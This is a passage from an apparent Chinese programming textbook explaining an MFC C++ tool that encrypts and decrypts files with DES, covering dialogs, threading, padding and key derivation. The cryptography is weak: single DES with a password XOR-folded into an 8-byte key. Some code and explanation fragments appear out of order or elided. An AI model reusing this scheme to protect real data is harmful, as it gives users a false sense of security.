        if( MessageBox("\"保存为\"文件已经存在,是否替换该文件?", "警告!", MB_ICONWARNING | MB_YESNO | MB_DEFBUTTON2 ) != IDYES )
        {
            m_Saveas.Empty();
        }
        CDESEncoderDlg::UpdateData( FALSE );
    }
}
```

打开对话框选择文件后，自动在“保存为”输入框中生成一个以“Encode_”开头的文件名字串，其中 `SelectFile` 函数里主要是对如下代码的实现。

```cpp
if ( GetOpenFileName( &OpenFileName ) )
{
}
```

```cpp
if( !SetPathString( Num, OpenFileName.lpstrFile ) ) // 设置字符串路径
{
    // 设置失败，Num 为一个无效值
    return FALSE;
}
```

```cpp
g_hThread = ::CreateThread( NULL, NULL,
(LPTHREAD_START_ROUTINE)EnDeCode, NULL, NULL,
&td );
```

这段代码的作用是打开一个对话框，让用户选择要加密的文件。为了让用户可以更改“保存为”文件的文件名和存储位置，又添加了“保存为”后面的“浏览...”按钮，其功能与上面的功能相似。

这段代码只是简单地创建一个线程运行 `EnDeCode` 函数。利用多线程的目的在于，如果程序在加密/解密大量数据时，程序界面还可以保持与用户之间的响应，而不会出现当用户在加密/解密数据时，移动程序窗口，程序就失去了响应。

```cpp
void CDESEncoderDlg::OnSaveView()
{
    SelectFile("ALL Files(*.*)\0*.*\0", "文件保存为", OFN_PATHMUSTEXIST, 2);
    // 判断“保存为”文件是否存在
    if( ::GetFileAttributes(m_Saveas.GetBuffer(m_Saveas.GetLength())) != -1 )
    {
        if( MessageBox("\"保存为\" 文件已存在,是否替换该文件?", "警告", MB_ICONWARNING | MB_YESNO | MB_DEFBUTTON2 ) != IDYES )
        {
            m_Saveas.Empty();
            UpdateData(FALSE);
        }
    }
}
```

`EnDeCode()` 函数是 DES 加密/解密文件的真正核心函数，其代码如下：

```cpp
// 这里获得本程序实例句柄
CDESEncoderDlg* pCurDlg;
if( dwDlgHandle ) // 已经得到了该实例句柄
{
    pCurDlg = (CDESEncoderDlg*)dwDlgHandle;
}
else
{
    MessageBox(AfxGetMainWnd()->m_hWnd, "得到实例句柄失败...", "失败", MB_OK);
    g_hThread = NULL; // 标记多线程结束
    return;
}
```

当点击“文件加密”和“文件解密”按钮时，它实际上调用的都是同一个函数 `FileCodeOperate`，只是传递的参数不同而已。“文件加密”时，参数为 `TRUE`；“文件解密”时，参数为 `FALSE`。`FileCodeOperate()` 函数的内容如下：

因为它是普通函数，又要操作程序界面，所以首先应该得到程序的实例句柄，方法是将我们之前存储到 `dwDlgHandle` 变量中的句柄信息通过如下操作，将其转为实例句柄。接着是一个 “do...while(FALSE)” 结构的加密/解密核心操作。

```cpp
void FileCodeOperate( BOOL bEncode )
{
    bEnDecode = bEncode;
    // 创建多线程来调用加/解密函数
    DWORD td;
    if( g_hThread )
    {
        if( hSource ) { hSource = NULL; }
        if( hDest ) { hDest = NULL; }
        ::TerminateThread(g_hThread, -1);
        g_hThread = NULL;
    }
}
```

```cpp
do
{
    // 得到 Key 值
    char Key[8];
    char Chars[8];
    ULONG Len;
    ULONG ulSrcLen, ulSrcLenHigh;
    if( !pCurDlg->GetKey(Key) )
    {
        bSuccess = FALSE;
        break;
    }

    // 打开源文件，创建目标文件
    hSource = ::CreateFile(pCurDlg->m_File.GetBuffer(pCurDlg->m_File.GetLength()),
        GENERIC_READ,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        ... );
}
```

```cpp
OPEN_EXISTING, \
FILE_ATTRIBUTE_NORMAL, \
NULL );
if( hSource == INVALID_HANDLE_VALUE )
// 打开失败
{
    MessageBox( AfxGetMainWnd()->m_hWnd, "打开 加/解密 文件失败!", "错误", MB_OK );
    bSuccess = FALSE;
    break;
}
ulSrcLen = ::GetFileSize( hSource, &ulSrcLenHigh );
if( ulSrcLenHigh != 0 )
{
    MessageBox( AfxGetMainWnd()->m_hWnd, "加/解密 文件太大!", "错误", MB_OK );
    // 文件过大
    bSuccess = FALSE;
    break;
}
hDest = ::CreateFile( pCurDlg->m_Saveas.GetBuffer(pCurDlg->m_Saveas.GetLength()),
    GENERIC_WRITE,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,
    CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL,
    NULL );
if( hDest == INVALID_HANDLE_VALUE )
// 创建失败
{
    ::CloseHandle( hSource );
    hSource = NULL;
    MessageBox( AfxGetMainWnd()->m_hWnd, "创建 保存为 文件失败!", "错误", MB_OK );
    bSuccess = FALSE;
    break;
}
ULONG ulTotalSize = ulSrcLen;
pCurDlg->m_Progress.SetRange( 0, short(ulSrcLen/(1024*100)+(((ulSrcLen)%(1024*100))==0?0:1)) );
// 范围，文件大小/100K
pCurDlg->m_Progress.SetPos( 0 ); // 当前位置
pCurDlg->m_Progress.SetStep( 1 ); // 步长
ZeroMemory( Chars, sizeof( Chars ) );
while( ::ReadFile( hSource, Chars, sizeof( Chars ), &Len, NULL ) )
{
    DES( Chars, Key, bEnDecode );
    ::WriteFile( hDest, Chars, sizeof( Chars ), &Len, NULL );
    ulSrcLen -= Len;
    pCurDlg->m_Progress.SetPos( ... );
    ZeroMemory( Chars, sizeof( Chars ) );
}
```

```cpp
if( bEnDecode ) // 加密
{
    if( ulSrcLen <= 8 ) // 最后一组了
    {
        if( ulSrcLen == 8 ) // 刚好为8字节
        {
            // 分为4字节一组，并且最后一字节为该组长度(即4)
            int j;
            for( j = 0; j < 2; j++ )
            {
                ZeroMemory( Chars, sizeof( Chars ) );
                ::ReadFile( hSource, Chars, ulSrcLen/2, &Len, NULL );
                Chars[sizeof(Chars)-1] = (char)Len;
                DES( Chars, Key, bEnDecode );
                ::WriteFile( hDest, Chars, 8, &Len, NULL );
                ulSrcLen -= Len;
                pCurDlg->m_Progress.SetPos( ... );
            }
            break;
        }
        else
        {
            // 这一组加密，最后一个字节为该组长度，最后再加一组全0
            ZeroMemory( Chars, sizeof( Chars ) );
            ::ReadFile( hSource, Chars, ulSrcLen, &Len, NULL );
            Chars[sizeof(Chars)-1] = (char)Len;
            DES( Chars, Key, bEnDecode );
            ::WriteFile( hDest, Chars, 8, &Len, NULL );
            ulSrcLen -= Len;
            pCurDlg->m_Progress.SetPos( ... );

            // 写入最后一组全0
            ZeroMemory( Chars, sizeof( Chars ) );
            DES( Chars, Key, bEnDecode );
            ::WriteFile( hDest, Chars, 8, &Len, NULL );
            ulSrcLen -= Len;
            if( ulSrcLen < 0 )
            {
                ulSrcLen = 0;
            }
            pCurDlg->m_Progress.SetPos( ... );
            break;
        }
    }
}
else // 解密
{
    if( ulSrcLen <= 16 ) // 最后两组
    {
        // 将最后两组解密后，只写入解密后的最后一个字节的长度
        int j;
        for( j = 0; j < 2; j++ )
        {
            ...
        }
    }
}
```

#### 文件加密/解密实现说明

```cpp
ZeroMemory(Chars, sizeof(Chars));
ReadFile(hSource, Chars, sizeof(Chars), &Len, NULL);
DES(Chars, Key, bEnDecode);
Len = Chars[sizeof(Chars)-1];
WriteFile(hDest, Chars, Len, &Len, NULL);
ulSrcLen -= Len;
pCurDlg->m_Progress.SetPos((ulTotalSize/(1024*100))+(((ulTotalSize)%(1024*100))==0?0:1));
...
CloseHandle(hSource);
hSource = NULL;
CloseHandle(hDest);
hDest = NULL;
} while(FALSE);
```

在进行加密/解密文件操作时，省略处的代码不用考虑。程序首先调用 `pCurDlg->GetKey(Key)` 得到 Key（DES 密钥），其函数实现思路为：先判断用户两次密码是否为空、是否相同，再进行映射异或操作。

```cpp
char *Password = m_Password1.GetBuffer(m_Password1.GetLength());
memset(Key, 0, 8);
// 对用户输入的密码进行嵌入循环异或处理
for(i = 0; i < m_Password1.GetLength(); i++)
{
    *(Key+(i%8)) ^= *(Password+i);
}
```

在前面 DES 核心算法实现时，Key 信息为 64 比特（8 个字符），因此无论用户输入密码多长，都要映射到 8 个字符空间。接下来利用 `CreateFile` API 打开原文件并创建目标文件，判断原文件大小如下。

```cpp
ulSrcLen = GetFileSize(hSource, &ulSrcLenHight);
if(ulSrcLenHight != 0)
{
    MessageBox(AfxGetMainWnd()->m_hWnd, "加/解密文件太大!", "错误", MB_OK);
    // 文件过大
    bSuccess = FALSE;
    break;
}
```

如果原文件大小中高位指针不为空，说明文件已经很大，我们就简单地不处理它。

之后通过以下方法来设置进度条的滚动。

```cpp
pCurDlg->m_Progress.SetRange(0, short(ulSrcLen/(1024*100)+((ulSrcLen)%(1024*100)==0?0:1)));
// 范围：文件大小/100K
pCurDlg->m_Progress.SetPos(0);   // 当前位置
pCurDlg->m_Progress.SetStep(1);  // 步长
```

接着用一个 while 结构循环读取文件，直到读取完毕。在处理文件加密/解密时，不能简单将全部数据直接传给 DES，而要分组处理。文中说明了最后一组不足 8 字节时的处理方式：通过最后一个字节记录该组有效字节数，再补齐后加密。解密时读取最后一字节（如 n）仅取前 n 字节作为有效数据，以避免尾组歧义。并进一步讨论了为什么不能仅依赖“非 0 字节数”判断有效数据，尤其在二进制文件场景下会出错。

```cpp
if(ulSrcLen <= 8) // 最后一组了
{
    if(ulSrcLen == 8) // 刚好为8字节
    {
        // 分为4字节一组，并且最后一字节为该组长度(即:4)
        ...
        break;
    }
    else
    {
        ...
    }
}
```

```cpp
{// 这一组加密，最后一个字节为该组长度，最后再加一组全0
……省略
// 写入最后一组全0
……省略
break;
}
}
```

最后，为了让用户使用方便，还添加了文件拖动功能，即用户直接把要加密的文件拖到界面上即可。

```cpp
void CDESEncoderDlg::OnDropFiles(HDROP hDropInfo)
// 拖动文件到本程序上
{
    int Pos;
    char SrcFile[256];
    memset(SrcFile, 0, sizeof(SrcFile));
    DragQueryFile(hDropInfo, 0, SrcFile, sizeof(SrcFile)-1);
    m_File.Format("%s", SrcFile);
    Pos = m_File.ReverseFind('\\');
    if (Pos == -1)
    {
        Pos = 0;
    }
    else
    {
        Pos++;
    }
    m_Saveas = m_File.Left(Pos) + "Encode_" + m_File.Right(m_File.GetLength() - Pos);
    CDESEncoderDlg::UpdateData(FALSE);
    // 判断“保存为”文件是否存在
    if (::GetFileAttributes(m_Saveas.GetBuffer(m_Saveas.GetLength())) != -1)
    {
        if (MessageBox("\"保存为\"文件已存在，是否替换该文件?", "警告", MB_ICONWARNING | MB_YESNO | MB_DEFBUTTON2) != IDYES)
        {
            m_Saveas.Empty(); // 如果不替换文件，则将“保存为”框清空
        }
        CDESEncoderDlg::UpdateData(FALSE);
    }
}
```

最后是解密的框架：

```cpp
if (ulSrcLen <= 16) // 最后两组
{// 将最后两组解密后，只写入解密后的最后一个字节的长度
……省略
break;
}
```

当用户在加密大文件时，如果觉得时间过长，想取消本次加密，可以点击“停止”按钮。

```cpp
void CDESEncoderDlg::OnStop()
{
    // TODO: Add your control notification handler code here
    if (g_hThread) // 多线程还在运行，先终止它
    {
        if (hSource)
        {
            hSource = NULL;
        }
        if (hDest)
        {
            hDest = NULL;
        }
        ::TerminateThread(g_hThread, -1);
        g_hThread = NULL;
    }
    // 恢复进度条
    m_Progress.SetPos(0);
}
```

> [本文涉及的代码（程序），请见随书光盘]